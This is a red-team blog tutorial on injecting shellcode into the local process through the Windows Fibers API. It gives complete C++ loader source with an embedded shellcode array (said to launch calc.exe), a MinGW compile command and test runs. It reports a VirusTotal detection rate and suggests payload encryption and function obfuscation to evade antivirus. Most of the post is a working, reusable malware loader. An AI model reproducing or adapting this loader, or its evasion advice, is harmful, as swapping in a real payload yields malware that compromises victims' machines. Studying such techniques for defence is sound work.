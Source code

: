 ```yaml
---
title:  "Code injection via windows Fibers. Simple C++ malware."
date:   2021-11-28 10:00:00 +0600
header:
  teaser: "/assets/images/26/2021-11-28_20-18.png"
categories: 
  - tutorial
tags:
  - code injection
  - windows
  - malware
  - red team
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

![fiber injection](/assets/images/26/2021-11-28_20-18.png){:class="img-responsive"}    

In this post, I'll take a look at the code injection to local process through Windows Fibers API.    

A fiber is a unit of execution that must be manually scheduled by the application. Fibers run in the context of the threads that schedule them.    

### Example

Let's go to consider an example which demonstrate this technique.   

Firstly, before scheduling the first fiber, call the `ConvertThreadToFiber` function to create an area in which to save fiber state information:

![fiber injection 2](/assets/images/26/2021-11-28_20-49.png){:class="img-responsive"}    

Then, allocate some memory for our payload and payload is written to the allocated memory:

![fiber injection 3](/assets/images/26/2021-11-28_20-50.png){:class="img-responsive"}    

As you can see, `VirtualAlloc` called with `PAGE_EXECUTE_READWRITE` parameter, which means executable, readable and writeable.

The next step is create a fiber that will execute the our payload:    

![fiber injection 4](/assets/images/26/2021-11-28_20-57.png){:class="img-responsive"}    

And finally, schedule the newly created fiber that points to our payload:

![fiber injection 5](/assets/images/26/2021-11-28_20-59.png){:class="img-responsive"}    

So, our full source code is (`hack.cpp`):      
```cpp
/*
hack.cpp
code inject via fibers
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2021/11/28/malware-injection-8.html
*/
#include <windows.h>

unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 0x41, 0x51,
  0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52,
  0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72,
  0x50, 0x48, 0x0f, 0xb7, 0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52, 0x20, 0x8b,
  0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
  0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44,
  0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41,
  0x8b, 0x34, 0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 0x75, 0xf1,
  0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd8, 0x58, 0x44,
  0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44,
  0x8b, 0x40, 0x1c, 0x49, 0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01,
  0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 0x58, 0x41,
  0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 0xff, 0xff, 0x5d, 0x48,
  0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d,
  0x01, 0x01, 0x00, 0x00, 0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5,
  0xbb, 0xf0, 0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 0xfb, 0xe0,
  0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 0x00, 0x59, 0x41, 0x89,
  0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};

unsigned int my_payload_len = sizeof(my_payload);

int main() {

  PVOID f; // converted
  PVOID payload_mem; // memory buffer for payload
  PVOID payloadF; // fiber

  // convert main thread to fiber
  f = ConvertThreadToFiber(NULL);

  // allocate memory buffer
  payload_mem = VirtualAlloc(0, my_payload_len, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  memcpy(payload_mem, my_payload, my_payload_len);

  // create a fiber that will execute payload
  payloadF = CreateFiber(NULL, (LPFIBER_START_ROUTINE)payload_mem, NULL);

  SwitchToFiber(payloadF);
  return 0;
}

```

As you can see for simplicity, we use 64-bit `calc.exe` as the payload. Without delving into the generation of the payload, we will simply insert payload into our code:
```cpp
unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 0x41, 0x51,
  0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52,
  0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72,
  0x50, 0x48, 0x0f, 0xb7, 0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52, 0x20, 0x8b,
  0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
  0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44,
  0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41,
  0x8b, 0x34, 0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 0x75, 0xf1,
  0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd8, 0x58, 0x44,
  0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44,
  0x8b, 0x40, 0x1c, 0x49, 0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01,
  0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 0x58, 0x41,
  0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 0xff, 0xff, 0x5d, 0x48,
  0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d,
  0x01, 0x01, 0x00, 0x00, 0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5,
  0xbb, 0xf0, 0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 0xfb, 0xe0,
  0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 0x00, 0x59, 0x41, 0x89,
  0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};
```

Let's go to compile our simple malware:
```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -mconsole -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![fiber injection 6](/assets/images/26/2021-11-28_21-04.png){:class="img-responsive"}    

Let's go to launch a `hack.exe` on windows 7 x64:    
```cmd
.\hack.exe
```

![fiber injection 7](/assets/images/26/2021-11-28_21-06.png){:class="img-responsive"}    

Also perfectly worked on `windows 10 x64 (build 18363)`:

![fiber injection 8](/assets/images/26/2021-11-28_21-08.png){:class="img-responsive"}    

Let's go to upload our malware to virustotal:

![fiber injection 9](/assets/images/26/2021-11-28_21-31.png){:class="img-responsive"}    

[https://www.virustotal.com/gui/file/f03bdb9fa52f7b61ef03141fefff1498ad2612740b1fdbf6941f1c5af5eee70a?nocache=1](https://www.virustotal.com/gui/file/f03bdb9fa52f7b61ef03141fefff1498ad2612740b1fdbf6941f1c5af5eee70a?nocache=1)    

**So, 25 of 67 AV engines detect our file as malicious.**    

For better result we can combine [payload encryption](/tutorial/2021/09/04/simple-malware-av-evasion.html) with random key and [obfuscate functions](/tutorial/2021/09/06/simple-malware-av-evasion-2.html) with another keys etc.   
Also we can use [AES encryption](/tutorial/2021/09/15/simple-rev-c-1.html) for payload encryption.   

[BlackHat USA 2019 process injection techniques Gotta Catch Them All](https://i.blackhat.com/USA-19/Thursday/us-19-Kotler-Process-Injection-Techniques-Gotta-Catch-Them-All.pdf)     
[MSDN Fibers](https://docs.microsoft.com/en-us/windows/win32/procthread/fibers)    
[VirtualAlloc](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc)    
[ConvertThreadToFiber](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-convertthreadtofiber)    
[CreateFiber](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createfiber)    
[SwitchToFiber](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-switchtofiber)    
[memcpy](https://docs.microsoft.com/en-us/cpp/c-runtime-library/reference/memcpy-wmemcpy?view=msvc-170)    
[Source code in Github](https://github.com/cocomelonc/2021-11-26-malware-injection-8)    

> This is a practical case for educational purposes only.      

Thanks for your time, happy hacking and good bye!    
*PS. All drawings and screenshots are mine*
